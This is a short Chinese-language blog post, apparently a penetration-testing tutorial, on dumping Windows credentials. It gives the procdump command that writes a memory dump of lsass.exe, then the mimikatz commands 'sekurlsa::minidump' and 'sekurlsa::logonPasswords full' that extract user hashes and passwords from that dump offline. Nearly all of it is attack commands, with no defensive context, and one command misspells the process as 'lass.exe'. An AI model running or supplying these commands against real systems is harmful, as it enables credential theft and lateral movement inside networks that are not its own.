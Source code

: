 ```yaml
---
title: "Procdump 导出密码"
date: 2019-07-07T00:00:00+08:00
draft: false
tags: ['mimikatz']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


procdump 是微软官方的一款用于调试的工具, 其用途是导出本地进程的内存文件.

lsass.exe 本地安全权限服务, 通过导出 lass.exe 的内存文件配合 mimikatz 可读取用户 Hash

<!--more-->

服务器执行.

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
procdump64.exe -accepteula -ma lass.exe lsass.dmp
```

本地读取时要注意, 系统必须符合服务器的环境.

```
sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```

![procdump getpass](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/procdump_getpass.jpg)